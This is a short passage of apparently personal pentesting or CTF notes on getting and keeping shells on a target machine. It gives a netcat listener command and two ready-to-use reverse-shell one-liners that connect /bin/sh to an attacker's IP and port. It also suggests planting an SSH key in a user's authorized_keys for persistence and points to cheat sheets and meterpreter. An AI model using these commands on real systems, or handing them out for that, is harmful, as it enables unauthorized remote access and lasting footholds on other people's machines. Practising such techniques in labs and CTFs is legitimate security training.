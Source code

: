 5. Simple shells

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet is an amazing list of reverse shells if the ones listed here don't work.

#### Opening a connection on your computer:
- `nc -nlvp PORT`
	- This opens the port and waits for a connection to create a reverse shell

#### Common reverse shell commands:
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f`
- `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

#### Opening a bind shell
Bind shells aren't as common due to the fact that they are more vulnerable to being "stolen" as well as outgoing connections are harder to flag as bad traffic than incoming connections. I will not list them since I've never had a use for them outside of metasploit payloads, but https://ashr.net/bind/and/reverse/shell/cheatsheet/windows/and/linux.aspx is a good place to find some.

### Upgrading to an interactive shell
Sometimes you have a shell that lets you run commands but no tab completion, arrow key movement, etc.
- The first way is to edit the .ssh/authorized_keys of a user then ssh in. This also helps with ensuring you still have the conneciton to the server even if you patch the exploit/the connection drops
	- Note that some machines may not have ssh enabled or on the default port. Check your nmap scan!
- https://netsec.ws/?p=337 is a good list of how to spawn a tty shell, python being the one I use the most.
- https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-3-upgrading-from-netcat-with-magic

Sometimes you'll end up where you can't seem to get a tty shell no matter what you do. Keep trying or just work with what you have. If you have all the time in the world, consider using msfvenom and establishing a meterpreter shell, which is more consistent than whatever reverse shell you may have setup.